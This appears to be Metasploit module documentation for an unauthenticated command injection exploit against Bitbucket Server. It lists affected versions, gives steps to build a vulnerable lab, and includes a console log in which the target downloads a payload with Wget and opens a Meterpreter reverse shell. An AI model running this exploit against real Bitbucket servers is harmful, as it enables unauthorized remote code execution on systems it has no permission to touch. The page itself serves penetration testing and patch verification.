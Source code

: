 ## Vulnerable Application

Various versions of Bitbucket Server and Data Center are vulnerable to
an unauthenticated command injection vulnerability in multiple API endpoints.

The `/rest/api/latest/projects/{projectKey}/repos/{repositorySlug}/archive` endpoint
creates an archive of the repository, leveraging the `git-archive` command to do so.
Supplying NULL bytes to the request enables the passing of additional arguments to the
command, ultimately enabling execution of arbitrary commands.

According to the [advisory](https://confluence.atlassian.com/bitbucketserver/bitbucket-server-and-data-center-advisory-2022-08-24-1155489835.html), vulnerable versions of Bitbucket are:

  Any version released after version `6.10.17` and before:
          * `7.6.17`
          * `7.17.10`
          * `7.21.4`
          * `8.0.3`
          * `8.1.3`
          * `8.2.2`
          * `8.3.1`

Download archives can be found [here](https://www.atlassian.com/software/bitbucket/download-archives).
    
### Installation Instructions

1. Install Git on the target machine
  * sudo apt install -y git
2. Download a vulnerable version of Bitbucket. For example, version `8.2.1` can be found
[here](https://www.atlassian.com/software/stash/downloads/binary/atlassian-bitbucket-8.2.1-x64.bin)
3. Make sure the resulting bin file is executable and run it
  * chmod +x atlassian-bitbucket-8.3.0-x64.bin && sudo ./atlassian-bitbucket-8.3.0-x64.bin
4. An installation wizard will pop up. Make sure `Install a new instance` is checked, then click `Next`
5. Check `Install a Server instance` and click `Next`
6. If the default destination directory looks good, click `Next`
7. Click `Next` if the default Bitbucket data directory looks fine
8. Make sure the `Use default HTTP port (7990)` selection is checked and click `Next`
9. Make sure the `Install Bitbucket as a service` box is checked and click `Next`
10. Click `Install` if everything looks correct on the summary screen
11. Once the installation completes, make sure the `Would you like to launch Bitbucket` option is selected
and click `Next`
12. Ensure `Launch Bitbucket <version> in browser` is selected and click `Finish`
13. Navigate to the Bitbucket setup page (http://localhost:7990) and select the `I need an evaluation license` option
14. If you already have an account, select `I have an account`; otherwise, create a new account
15. 'up and running' should be selected on the next page, so click `Generate License`
16. Confirm that the prompt gives you the correct server, then click `Yes`
17. The license should be entered in the box, so select `Next`
18. Finally, set up an administrator account

*Note*: If an error occurs on the last step, just open a browser and navigate to the setup
page at 127.0.0.1:7990

### Vulnerable Setup

1. Log into Bitbucket with your administrator credentials
2. Once logged in, select `Projects` at the top menu
3. Select `Create project`
4. Enter a name for the project and click `Create project`
5. On the next page, select `Create repository`
6. Enter a name for the repository and select `Create repository`
7. Follow the instructions to clone the repository and push data to the repository so it is not empty
8. Click the gear on the left side of the next page
9. Select `Repository permissions` under `Security` on the left
10. Underneath `Public access`, check `Enable` to make the repository public

Bitbucket should now be exploitable

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/bitbucket_git_cmd_injection`
4. Do: `run`
5. You should get a shell.

## Options

### USERNAME

An optional username to authenticate to Bitbucket with

### PASSWORD

An optional password to authenticate to Bitbucket with

### Bitbucket version 8.2.1 on Ubuntu 22.04

```
msf6 > use exploit/linux/http/bitbucket_git_cmd_injection
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/bitbucket_git_cmd_injection) > set rhost 192.168.140.216
rhost => 192.168.140.216
msf6 exploit(linux/http/bitbucket_git_cmd_injection) > set lhost 192.168.140.1
lhost => 192.168.140.1
msf6 exploit(linux/http/bitbucket_git_cmd_injection) > run

[*] Started reverse TCP handler on 192.168.140.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Searching Bitbucket for publicly accessible repository
[+] Found public repo 'repo_name' in project 'TEST'!
[*] Using URL: http://192.168.140.1:8080/7SGXRWRlXr8t
[*] Client 192.168.140.216 (Wget/1.21.2) requested /7SGXRWRlXr8t
[*] Sending payload to 192.168.140.216 (Wget/1.21.2)
[*] Sending stage (3020772 bytes) to 192.168.140.216
[*] Meterpreter session 1 opened (192.168.140.1:4444 -> 192.168.140.216:57994) at 2022-09-20 18:40:27 -0500
[*] Command Stager progress - 100.00% done (118/118 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: atlbitbucket
meterpreter > sysinfo
Computer     : 192.168.140.216
OS           : Ubuntu 22.04 (Linux 5.15.0-48-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
